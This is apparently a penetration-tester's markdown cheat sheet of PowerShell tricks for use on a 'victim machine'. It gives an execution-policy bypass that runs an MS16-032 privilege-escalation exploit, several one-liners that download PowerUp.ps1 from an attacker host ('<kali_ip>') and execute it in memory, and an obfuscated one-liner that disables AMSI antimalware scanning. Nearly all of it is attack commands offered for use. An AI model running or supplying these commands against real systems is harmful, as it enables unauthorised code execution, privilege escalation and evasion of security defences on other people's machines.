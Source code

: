 # Powershell

Here I will describe many common tricks for Powershell:

## Execute Exploit oneliner

If you already downloaded the powershell scrip to your victim machine, execute as following:

```
C:\tmp>powershell -ExecutionPolicy ByPass -command "& { . C:\tmp\Invoke-MS16-032.ps1; Invoke-MS16-032 }"
```

## Non Interactive PowerShell execution

```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File file.ps1
```

## Execute file in memory

Let's say you would like to execute PS module from you Apache / SimpleHTTPServer on the victim. 
The following techniques will download the PS module and execute it in memory with no touching the disk.

For Powershell 1.0 - 2.0:

```
PS C:\> IEX(New-Object Net.WebClient).DownloadString('http://<kali_ip>/PowerUp.ps1')
```

For Powershell 3.0+:

```
PS C:\> iex (iwr 'http://<kali_ip>/PowerUp.ps1')
```

## Execute Script without Webclient

In some case WebClient might be blocked so try another way:

```
PS C:\> $wr = [System.NET.WebRequest]::Create("http://<kali_ip>/PowerUp.ps1") 
PS C:\> $r = $wr.GetResponse()
PS C:\> IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```

## Disable AMSI protection in Win10+

This features uses string detection to detect "malicous" intents in commands and scripts. This is applied into Windows 10 and above:

```
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```
